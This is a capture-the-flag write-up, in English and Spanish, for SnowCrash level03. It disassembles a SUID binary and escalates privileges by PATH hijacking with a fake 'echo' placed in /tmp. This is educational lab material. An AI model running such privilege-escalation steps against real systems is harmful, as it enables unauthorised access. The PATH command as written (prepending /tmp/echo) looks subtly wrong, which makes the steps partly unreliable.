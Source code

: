 ### LEVEL03
- ls -la 
    ```bash
        [...]
        -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
        [...]
        level03@SnowCrash:~$ file level03
        level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
        level03@SnowCrash:~$ ./level03
        Exploit me
    ``` 
- The file level03 has SUID permissions, so when it's executed, it runs as if it were the user flag03.

- objdump -d level03
- objdump -d level03
    ```asm
        080484a4 <main>:
        80484a4:	55                   	push   %ebp
        80484a5:	89 e5                	mov    %esp,%ebp
        80484a7:	83 e4 f0             	and    $0xfffffff0,%esp
        80484aa:	83 ec 20             	sub    $0x20,%esp
        80484ad:	e8 ee fe ff ff       	call   80483a0 <getegid@plt>
        80484b2:	89 44 24 18          	mov    %eax,0x18(%esp)
        80484b6:	e8 d5 fe ff ff       	call   8048390 <geteuid@plt>
        80484bb:	89 44 24 1c          	mov    %eax,0x1c(%esp)
        80484bf:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484c3:	89 44 24 08          	mov    %eax,0x8(%esp)
        80484c7:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484cb:	89 44 24 04          	mov    %eax,0x4(%esp)
        80484cf:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484d3:	89 04 24             	mov    %eax,(%esp)
        80484d6:	e8 05 ff ff ff       	call   80483e0 <setresgid@plt>
        80484db:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484df:	89 44 24 08          	mov    %eax,0x8(%esp)
        80484e3:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484e7:	89 44 24 04          	mov    %eax,0x4(%esp)
        80484eb:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484ef:	89 04 24             	mov    %eax,(%esp)
        80484f2:	e8 89 fe ff ff       	call   8048380 <setresuid@plt>
        80484f7:	c7 04 24 e0 85 04 08 	movl   $0x80485e0,(%esp)
        80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
        8048503:	c9                   	leave
        [...]
    ```
- We see that it calls the `system` function:
    ```asm
        80484f7:	c7 04 24 e0 85 04 08 	movl   $0x80485e0,(%esp)
        80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
   ``` 
- With GDB, we can view the content of the parameter passed to the `system()` function.
    ```asm
        gdb x/s 0x80485e0
        0x80485e0:	"/usr/bin/env echo Exploit me"
    ```

- We see that it executes `echo` without a path, which allows for a path hijacking to execute any command as the flag03 user.
    ```bash
        echo "/bin/getflag" > /tmp/echo
        export PATH=/tmp/echo:$PATH
        chmod 777 /tmp/echo
        ./level03
    ```

---

### LEVEL03
- ls -la 
    ```bash
        [...]
        -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
        [...]
        level03@SnowCrash:~$ file level03
        level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
        level03@SnowCrash:~$ ./level03
        Exploit me
    ``` 

- El archivo level03 tiene permisos SUID por lo cual cuando se ejecuta como si fuera el usuario flag03

- objdump -d level03
    ```asm
        080484a4 <main>:
        80484a4:	55                   	push   %ebp
        80484a5:	89 e5                	mov    %esp,%ebp
        80484a7:	83 e4 f0             	and    $0xfffffff0,%esp
        80484aa:	83 ec 20             	sub    $0x20,%esp
        80484ad:	e8 ee fe ff ff       	call   80483a0 <getegid@plt>
        80484b2:	89 44 24 18          	mov    %eax,0x18(%esp)
        80484b6:	e8 d5 fe ff ff       	call   8048390 <geteuid@plt>
        80484bb:	89 44 24 1c          	mov    %eax,0x1c(%esp)
        80484bf:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484c3:	89 44 24 08          	mov    %eax,0x8(%esp)
        80484c7:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484cb:	89 44 24 04          	mov    %eax,0x4(%esp)
        80484cf:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484d3:	89 04 24             	mov    %eax,(%esp)
        80484d6:	e8 05 ff ff ff       	call   80483e0 <setresgid@plt>
        80484db:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484df:	89 44 24 08          	mov    %eax,0x8(%esp)
        80484e3:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484e7:	89 44 24 04          	mov    %eax,0x4(%esp)
        80484eb:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484ef:	89 04 24             	mov    %eax,(%esp)
        80484f2:	e8 89 fe ff ff       	call   8048380 <setresuid@plt>
        80484f7:	c7 04 24 e0 85 04 08 	movl   $0x80485e0,(%esp)
        80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
        8048503:	c9                   	leave
        [...]
    ```

- Vemos que se llama a `system`:
    ```asm
        80484f7:	c7 04 24 e0 85 04 08 	movl   $0x80485e0,(%esp)
        80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
   ``` 
- Con gdb podemos ver el contenido de el parametro que se pasa a la función system()
    ```asm
        gdb x/s 0x80485e0
        0x80485e0:	"/usr/bin/env echo Exploit me"
    ```
- Vemos que ejecuta echo sin ruta lo que permite hacer un secuestro de path para poder ejecutar como usuario flag03 cualquier comando
    ```bash
        echo "/bin/getflag" > /tmp/echo
        export PATH=/tmp/echo:$PATH
        chmod 777 /tmp/echo
        ./level03
    ```

